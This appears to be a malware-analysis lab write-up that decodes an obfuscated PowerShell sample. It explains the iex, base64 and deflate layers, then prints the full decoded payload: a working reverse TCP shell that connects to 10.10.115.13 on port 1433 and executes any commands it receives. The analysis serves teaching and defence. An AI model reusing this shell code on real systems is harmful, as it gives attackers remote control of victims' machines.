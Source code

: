 Sample for this section:

`PMAT-labs/labs/3-3.OffScript-ScriptMalware/PowerShell/Malware.PSObfusc.ps1.malz.7z`


## Code Analysis
Take the `.ps1` file and open with text editor in my case VScode.
![[Pasted image 20250125145005.png]]

We have a big base64 string (the payload) and some PowerShell function:

- `iex`: Invoke-Expression run the specified string as a command.
- `FROmbaSe64StRiNG`: Decode form base64 string.
- `Io.CoMpRESSiOn.defLaTEstReam`: Provides methods and properties for compressing and decompressing streams by using the Daflate algorithm.
- `dEcOMpresS`: decompress the payload.
- `%`: Stand for ForEach-Object
- `New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)`: Create a new object and for each element (\_$) read the content and convert in ASCII.

> NOTE
> PowerShell are not case sensitive so we can write like this `iex` or `iEx`.


## Decode payload

We have two way to decode the payload. 
#### 1. Use CyberChef.
   take the base64 string and put in the cyberchef with `from base64` rule.
   ![[Pasted image 20250125152614.png]]
   Click on the magic stick do decompress.
   ![[Pasted image 20250125152637.png]]
   
#### 2. Use PowerShell variable.
We can take the PowerShell script remove the `iex` function and pass to a PowerShell variable and print it.

![[Pasted image 20250125152814.png]]
Now open the `susPs1.ps1` file. And there is a pyaload 
![[Pasted image 20250125152854.png]]

### Payload Analysis
Source code
```powershell
########################################################################";
#                                                                      #";
#                        PowerShell Reverse TCP v3.5                   #";
#                                          by Ivan Sincek              #";
#                                                                      #";
# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
#                                                                      #";
#########################################################################";


$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
    $ip = "10.10.115.13"
    $port = 1433
	$client = New-Object Net.Sockets.TcpClient($ip, $port);
	$stream = $client.GetStream();
	$buffer = New-Object Byte[] 1024;
	$encoding = New-Object Text.AsciiEncoding;
	$writer = New-Object IO.StreamWriter($stream);
	$writer.AutoFlush = $true;
	$bytes = 0;
	do {
		$writer.Write("PS>");
		do {
			$bytes = $stream.Read($buffer, 0, $buffer.Length);
			if ($bytes -gt 0) {
				$data = $data + $encoding.GetString($buffer, 0, $bytes);
			}
		} while ($stream.DataAvailable);
		if ($bytes -gt 0) {
			$data = $data.Trim();
			if ($data.Length -gt 0) {
				try {
					$result = Invoke-Expression -Command $data 2>&1 | Out-String;
				} catch {
					$result = $_.Exception | Out-String;
				}
				Clear-Variable -Name "data";
				$length = $result.Length;
				if ($length -gt 0) {
					$count = 0;
					do {
						if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
						$writer.Write($result.substring($count, $bytes));
						$count += $bytes;
						$length -= $bytes;
					} while ($length -gt 0);
					Clear-Variable -Name "result";
				}
			}
		}
	} while ($bytes -gt 0);
} catch {
	 $_.Exception.InnerException.Message;
} finally {
	if ($writer -ne $null) {
		$writer.Close();
		$writer.Dispose();
		Clear-Variable -Name "writer";
	}
	if ($stream -ne $null) {
		$stream.Close();
		$stream.Dispose();
		Clear-Variable -Name "stream";
	}
	if ($client -ne $null) {
		$client.Close();
		$client.Dispose();
		Clear-Variable -Name "client";
	}
	if ($buffer -ne $null) {
		$buffer.Clear();
		Clear-Variable -Name "buffer";
	}
	if ($result -ne $null) {
		Clear-Variable -Name "result";
	}
	if ($data -ne $null) {
		Clear-Variable -Name "data";
	}
	[System.GC]::Collect();
}

```

This are a reverse TCP shell write in PowerShell script and is a open source script u can find here github.com/ivan-sincek/powershell-reverse-tcp .

In this case the reverse shell connect to 
- IP: `10.10.115.13`
- Port: `1433`

